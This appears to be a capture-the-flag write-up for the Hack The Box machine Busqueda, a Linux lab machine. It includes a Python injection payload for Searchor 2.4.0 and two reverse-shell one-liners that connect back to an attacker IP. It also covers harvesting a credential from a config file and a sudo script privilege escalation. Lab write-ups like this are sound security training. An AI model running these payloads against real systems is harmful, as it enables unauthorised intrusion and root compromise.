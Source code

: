 ## Busqueda Writeup -- HackTheBox ##
  
**This is a walkthrough to get root access on a Linux machine called Busqueda from Hack The Box**


• Add the IP address of the machine from Hack the Box website to your hosts file 

**sudo gedit /etc/hosts**

![image](https://github.com/MohamedKhaled7/Busqueda---HackTheBox/assets/58820314/dee050f3-0dc5-41de-8e11-6f334472570f)


• Next step is to doing scanning for open ports and for service version using nmap and the command: **nmap -sV -A -T4 10.10.11.208**


![image](https://github.com/MohamedKhaled7/Busqueda---HackTheBox/assets/58820314/ee5d7dd3-5546-4e8e-ad6d-37ca2851bc2a)

• as we noticed that two  ports (80, 22) are open, let's try to open the IP on the browser

![image](https://github.com/MohamedKhaled7/Busqueda---HackTheBox/assets/58820314/5bea92a6-0c2c-41e4-99cb-57ffc6bf5013)

• it is noticed at the bottom of the web page a version Searchor 2.4.0, let's try to find the exploit for it 

after searching on Google, it is found that the URL: https://github.com/nexis-nexis/Searchor-2.4.0-POC-Exploit- have the exploit code to receive an initial shell 

• put the exploit on the filed   
', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.14.144',1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#

![image](https://github.com/MohamedKhaled7/Busqueda---HackTheBox/assets/58820314/c6a5eca0-9522-4ef1-a94b-590f602d7429)


• on the same time open a listener using netcat with the command  nc -nlvp 1234,  press the search button and the initial shell will be as shown 

![image](https://github.com/MohamedKhaled7/Busqueda---HackTheBox/assets/58820314/4fd8f83d-e17d-4a62-aff6-aae9fc2d76a5)

• to obtain the first flag, go to home directory and display the content of the user.txt and you will get the first flag as shown 

![image](https://github.com/MohamedKhaled7/Busqueda---HackTheBox/assets/58820314/52e3fe7b-48be-4a72-9a08-ebf414e7b0c0)

• after enumeration, go through the folder  **cd /var/www/app**, display the content of the file config  **cat config** and the password for accessing  the server with SSH is showing 
 
![image](https://github.com/MohamedKhaled7/Busqueda---HackTheBox/assets/58820314/3b23308f-bc77-49b6-950c-17d4573e391c)

• connect to the web server with SSH to get an interactive and stable shell 

![image](https://github.com/MohamedKhaled7/Busqueda---HackTheBox/assets/58820314/07ace5e3-0083-427b-8172-68e678f3733a)

• enumeration to get a root shell, you will find docker-inspect, and try to get a code from Google to get the high privilege, with the help of this 
URL:  https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/python-privilege-escalation/   
with the code: import socket,os,pty;s=socket.socket();s.connect(("<local-ip>",4444));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")
after putting the code in a Python file with the name **full-checkup.sh** and opening a Python server to send the file from my local machine to the web server with the command 
└─$ **python -m http.server 80**, and on our shell use the command **wget://10.10.14.144:80/full-checkup.sh** to receive the file 

![image](https://github.com/MohamedKhaled7/Busqueda---HackTheBox/assets/58820314/69027e08-1198-4a29-b358-4fc605b0eb21)

![image](https://github.com/MohamedKhaled7/Busqueda---HackTheBox/assets/58820314/90860dd7-6e1c-4fe7-af41-37f64533edbc)

• after receiving the file change the mod by command **chmod +x full-checkup.sh** 
![image](https://github.com/MohamedKhaled7/Busqueda---HackTheBox/assets/58820314/a9bf3e06-475a-4c16-98a4-a6be25f2e09d)

• open a listener to listen on port 4444 with netcat  nc -nlvp 4444 

• run the following command to receive the root shell 

sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup

![image](https://github.com/MohamedKhaled7/Busqueda---HackTheBox/assets/58820314/f218f1be-171d-4b0f-aa55-a5ca58307e2f)

• we get the root flag and root access on the machine 










